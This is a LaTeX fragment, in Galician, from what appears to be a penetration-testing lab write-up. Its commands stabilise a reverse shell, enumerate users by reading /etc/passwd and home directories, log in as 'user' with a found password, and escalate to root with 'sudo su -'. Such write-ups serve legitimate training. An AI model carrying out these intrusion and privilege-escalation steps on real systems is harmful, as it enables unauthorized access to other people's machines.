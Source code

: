 \documentclass[a4paper]{article}
\newcommand{\reverseShellFive}{reverse-shell-5.png}
\begin{document}
        \begin{lstlisting}[language=Bash, caption=No host cliente (atacante): Pór o número de liñas e columnas da tty na shell inversa cos mesmos valores que unha shell local do host do atacante, linewidth=18.7cm]
$ stty rows 34 columns 80\end{lstlisting}
        \texttt{[image: \\reverseShellFive]}\par\

        \begin{tcolorbox}[enhanced,attach boxed title to top center={yshift=-3mm,yshifttext=-1mm},
  colback=blue!5!white,colframe=blue!75!black,colbacktitle=green!80!black,
  title=De Interese,fonttitle=\bfseries,
  boxed title style={size=small,colframe=red!50!black} ]
        \centering
\href{https://s4vitar.github.io/oscp-preparacion/\#pentesting-linux}{\textbf{\color{blue}https://s4vitar.github.io/oscp-preparacion/\#pentesting-linux}}
\end{tcolorbox}

        \clearpage
        \section{Escalada de privilexios}
        \vspace{0.2cm}
        \subsection{Movemento lateral: usuario user}
Agora na shell inversa estamos conectado co usuario \textbf{\color{red}www-data}. Imos ver se somos quen de acceder con outro usuario do sistema e de aí ver se somos quen de escalar privilexios para chegar a conseguir ser o usuario \textbf{root}:
        \begin{lstlisting}[language=Bash, caption=Outros usuarios existentes no sistema]
$ whoami
www-data
$ cat /etc/passwd
$ ls -la /home
$ ls -la /home/user
$ cat /home/user/.su-to-root
$ mount | grep live
\end{lstlisting}
        \begin{lstlisting}[language=Bash, caption=Acceso co usuario user]
$ su - user
Password: live
user$ whoami
user
\end{lstlisting}
        \begin{lstlisting}[language=Bash, caption=Escalada de privilexios: sudo]

user$ sudo su - 
#
\end{lstlisting}
\end{document}
